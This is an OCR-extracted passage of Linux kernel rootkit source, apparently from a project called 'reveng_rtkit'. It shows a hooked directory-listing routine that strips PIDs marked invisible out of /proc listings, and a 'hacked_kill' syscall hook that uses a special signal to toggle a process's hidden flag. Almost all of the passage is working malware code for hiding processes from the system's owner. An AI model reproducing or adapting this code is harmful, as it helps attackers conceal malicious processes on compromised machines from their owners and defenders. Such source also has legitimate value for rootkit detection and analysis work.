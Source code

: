                       if (d_inode->i_ino == PROC_ROOT_INO && !MAJOR(d_inode->i_rdev)
                        /*&& MINOR(d_inode->i_rdev) == 1*/)
                        proc = 1;

                      // Change which we will do
                      while (offset < ret)
                      {
                        dir = (void *)kdirent + offset;

                        if ((proc && is_invisible(simple_strtoul(dir->d_name, NULL, 10))))
                        {
                          if (dir == kdirent)
                          {
                            ret -= dir->d_reclen;
                            memmove(dir, (void *)dir + dir->d_reclen, ret);
                            continue;
                          }
                          prev->d_reclen += dir->d_reclen;
                        }
                        else
                        {
                          prev = dir;
                        }
                        offset += dir->d_reclen;
                      }
                      // Copying directory name (or pid name) from kernel space to user space, after changing 
                      err = copy_to_user(dirent, kdirent, ret);
                      
                      if (err)
                      {
                        goto out;
                      }

                    out:
                      kfree(kdirent);
                      return ret;
                    }

                    static asmlinkage int hacked_kill(const struct pt_regs *pt_regs)
                    {
                      /* Dependent registers:
                      * rax: contains syscall ids (normally) = 0x3e
                      * rdi: which contains the file descriptor (normally) = pid_t pid (in this case)
                      * rsi: which contains the passed arguments (normally) = int sig
                      */
                      pid_t pid = (pid_t) pt_regs->di;
                      int sig = (int) pt_regs->si;

                      struct task_struct *task;
                      switch (sig)
                      {
                        case HIDE_UNHIDE_PROCESS:
                          if ((task = find_task(pid)) == NULL)
                            return -ESRCH;
                          task->flags ^= PF_INVISIBLE;
                          printk(KERN_INFO "[*] reveng_rtkit: Hiding/unhiding pid: %d \n", pid);
                          break;
                        default:
                          return orig_kill(pt_regs);
                      }
                      return 0;
                    }
